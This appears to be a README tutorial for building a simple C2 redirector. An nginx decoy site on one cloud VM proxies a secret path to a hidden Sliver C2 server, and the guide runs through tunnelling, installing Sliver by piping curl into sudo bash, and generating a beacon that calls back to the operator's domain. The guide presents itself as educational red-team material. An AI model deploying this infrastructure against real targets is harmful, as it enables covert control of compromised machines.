 # Simple C2 Redirector Infrastructure
Simple C2 Path Redirector with nginx to help learn the basics of C2 infrastructure.
  
Requirements:
* (2) Ubuntu VMs in the cloud with **at least** 1 CPU and 2 GB RAM each
* (1) Domain

# 1. Create VMs in Cloud
First create two VMS in your favorite Cloud service (AWS, Azure, etc):  
* Redir-VM - Will be exposed to the internet and serve as the *fake website* using nginx   
* C2-VM - Will be your C2 (in this case Sliver) and NOT exposed to the internet at all

These two VMs will be in the **SAME private network** with the following network configs.  
**C2-VM**:
- Create in local network private network
- NO Public IP or ports open to the Internet
- Make sure to create an SSH key for these VMs

**Redir-VM** (You can change 8443 to whatever port but change throughout future steps if you do):  
- Inbound  
   - 22 to only your IP(s)  
   - 80 to any IP  
   - 443 to any IP  
   - 8443 to any IP
- Outbound  
    - 80 to any IP  
    - 443 to any IP  
    - 8443 to any IP   

Once you get your public IP for Redir-VM, make an *A-record* DNS entry to your domain and the public IP.


# 2. Setup Redir-VM
_Perform the following commands on Redir-VM unless stated otherwise._

First lets configure the redirector which will host a fake website using nginx and when a certain path is given, it will redirect to the C2 server.
```
sudo apt update && sudo apt upgrade
sudo apt-get install -y nginx certbot net-tools
sudo systemctl stop nginx
sudo certbot certonly --register-unsafely-without-email -d <www.youdomain.com>
Note: for certbot, enter [1] then [y] when prompted
```

Create your fake website in _/var/www/html_ by changing _index.html_ to your own code or use the one in the repo and change the wording a bit to make sense for your domain.

Create your redirector in _/etc/nginx/sites-available_ by adding the _default_ file from the repo to replace the one there.
CHANGE _secretpath_ to something custom, make sure its random looking and long. so something like:
```
  location /ajisdfYUVSbgseoznauitrcbXBWDG {
                proxy_pass https://<C2-ip>:443;
        }
```
Start up nginx
```
sudo systemctl start nginx
```

Upload your SSH key to Redir-VM so you can connect to C2-VM through SSH  
From your host to Redir-VM:
```
scp -i <yourSSH-.pem-file> <yourSSH-.pem-file> <user>@<Redir-VM-IP>:/home/<user>/.ssh/id_rsa
```
Chmod 400 to the SSH key on Redir-VM. 
```
chmod 400 ~/.ssh/<your-private-key>
```
Copy over the same SSH key to the C2 to do reversee SSH connections in the next step  
From Redir-VM to C2-VM:
```
scp /home/<user>/.ssh/id_rsa <user>@<c2-VM-IP>:/home/<user>/.ssh/id_rsa
```

# 3. Setup C2-VM

_Perform the following commands on C2-VM unless stated otherwise. Make sure the SSH key is on C2-VM from previous step in order to perform reverse SSH connection._

Setup SSH reverse connection from C2-VM to Redir-VM in order to reach the internet and download Sliver.  
This will leave the prompt hanging so open up another terminal for the other steps or run this in tmux or screen session.
```
ssh -D 1080 -q -N <user>@<Redir-VM-PRIVATE-IP>
```
*Note: This will leave the prompt hanging so open up another terminal for the other steps or run this in tmux or screen session*

Test SSH reverse connection by using curl with socks5, it should return the IP of Redir-VM's public IP.
```
curl --socks5-hostname 127.0.0.1:1080 ifconfig.io
```
Install your C2 using socks5 (in this case Sliver).
```
curl --socks5-hostname 127.0.0.1:1080 https://sliver.sh/install|sudo bash
```

Once it finishes installed, exit or cancel the _ssh -D_ command with _Ctrl + C_ in the terminal.


# 4. Configure Your C2
Again, this will be using sliver so modify steps to your C2 and we will be using defaul configs since this is not a tutorial on bypassing EDR.
Use Sliver's latest [Wiki](https://sliver.sh/docs?name=Compile+from+Source) in case specific configs change.  

Confirm Sliver is installed (running as sudo to use HTTPS, screen is optional).
```
sudo su
screen -S sliver-session
sliver
```

Generate a beacon and start HTTPS listener.
```
generate beacon --http <yourDomain>:8443/<yourSecretRedirPath> --save yourBeacon.exe

https
```

Transfer over payload (yourBeacon.exe) to a machine an run it (Make sure Defender is turned off if using default configs).
```
On C2-VM:
chmod 777 <beacon.exe-location>

On Redir-VM: 
scp -i <SSH-key> <user>@<C2-VM-IP>:/<beacon.exe-location> .

On host to get it from Redir-VM:
scp -i <SSH-key> <user>@<Redir-VM-public-IP>:/<beacon.exe-location> .
```


